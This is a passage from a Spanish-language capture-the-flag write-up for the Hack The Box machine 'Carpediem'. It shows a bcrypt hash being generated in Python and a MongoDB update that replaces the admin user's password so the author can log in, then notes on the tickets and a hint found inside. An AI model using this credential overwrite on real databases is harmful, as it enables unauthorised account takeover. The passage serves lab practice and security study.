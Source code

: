 Genero un hash en brypt para cambiárselo al usuario ```admin```

```null
python3
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import bcrypt
>>> bcrypt.hashpw( b'rubbx', bcrypt.gensalt(rounds=4))
b'$2b$04$HCrXKUzABhUuoOILqEdoH.ToVz7ET3v7B84P1PN9zbO2wCCLa4tgC'
```

En el ```MongoDB``` introduzco la query que lo aplica

```null
> db.accounts.update( {"username" : "admin" }, {$set: {"password": "$2b$04$HCrXKUzABhUuoOILqEdoH.ToVz7ET3v7B84P1PN9zbO2wCCLa4tgC"} });
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

<img src="/writeups/assets/img/Carpediem-htb/20.png" alt="">

Dentro de la interfaz se puede ver los tickets creados

<img src="/writeups/assets/img/Carpediem-htb/21.png" alt="">

Hay una pista CTF en la que hablan sobre una nueva aplicación que está desplegada
